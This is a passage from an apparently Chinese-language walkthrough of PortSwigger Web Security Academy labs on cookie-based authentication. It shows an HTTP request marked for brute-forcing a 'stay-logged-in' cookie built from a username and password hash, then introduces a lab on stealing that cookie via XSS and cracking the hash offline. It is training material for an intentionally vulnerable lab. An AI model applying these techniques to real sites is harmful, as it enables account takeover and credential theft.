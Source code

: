 得到返回数据包

```http
GET /my-account?id=carlos HTTP/2
Host: 0a07009104b85b0b81c9023a001e00d4.web-security-academy.net
Cookie: stay-logged-in=§d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw§; session=1KUF0duWtpwATL2dSPRr6k45wtiSBXgW
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Referer: https://0a07009104b85b0b81c9023a001e00d4.web-security-academy.net/login
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```

正确登录

## Lab11

### 前置

Even if the attacker is not able to create their own account, they may still be able to exploit this vulnerability. Using the usual techniques, such as [XSS](https://portswigger.net/web-security/cross-site-scripting), an attacker could steal another user's "remember me" cookie and deduce how the cookie is constructed from that. If the website was built using an open-source framework, the key details of the cookie construction may even be publicly documented.

In some rare cases, it may be possible to obtain a user's actual password in cleartext from a cookie, even if it is hashed. Hashed versions of well-known password lists are available online, so if the user's password appears in one of these lists, decrypting the hash can occasionally be as trivial as just pasting the hash into a search engine. This demonstrates the importance of salt in effective encryption.

### 题目

```
Lab: Offline password cracking
PRACTITIONER

This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality. To solve the lab, obtain Carlos's stay-logged-in cookie and use it to crack his password. Then, log in as carlos and delete his account from the "My account" page.

Your credentials: wiener:peter
Victim's username: carlos
```
